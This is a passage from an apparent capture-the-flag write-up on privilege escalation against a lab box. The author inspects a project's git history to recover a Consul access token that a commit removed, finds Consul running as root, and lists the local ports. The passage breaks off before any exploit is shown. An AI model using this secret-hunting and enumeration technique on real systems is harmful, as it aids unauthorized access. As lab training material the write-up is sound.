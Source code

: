 ## Privilege escalation

We found a project in /opt directory that uses git to manage the project.
```bash
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
```
Looking at the git logs and if we look at the last commit. It removes a token that was used for consul services.
```bash
developer@ambassador:/opt/my-app$ git log --oneline
33a53ef (HEAD -> main) tidy config script
c982db8 config script
8dce657 created project with django CLI
4b8597b .gitignore
developer@ambassador:/opt/my-app$ git show 33a53ef
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
Looking more on consul.
>HashiCorp Consul is a service networking solution that enables teams to manage secure network connectivity between services and across on-prem and multi-cloud environments and runtimes. Consul offers service discovery, service mesh, traffic management, and automated updates to network infrastructure device. You can use these features individually or together in a single Consul deployment.

Consul on this box running as root.
```bash
developer@ambassador:/opt/my-app$ ps aux | grep consul 
root        1093  0.2  3.8 794292 76364 ?        Ssl  06:01   0:15 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
```
Port numbers starting with "8" belong to consular services.
```bash
developer@ambassador:/opt/my-app$ ss -lnpt
State             Recv-Q            Send-Q                        Local Address:Port                          Peer Address:Port            Process            
LISTEN            0                 70                                127.0.0.1:33060                              0.0.0.0:*                                  
LISTEN            0                 151                                 0.0.0.0:3306                               0.0.0.0:*                                  
LISTEN            0                 4096                              127.0.0.1:8300                               0.0.0.0:*                                  
```
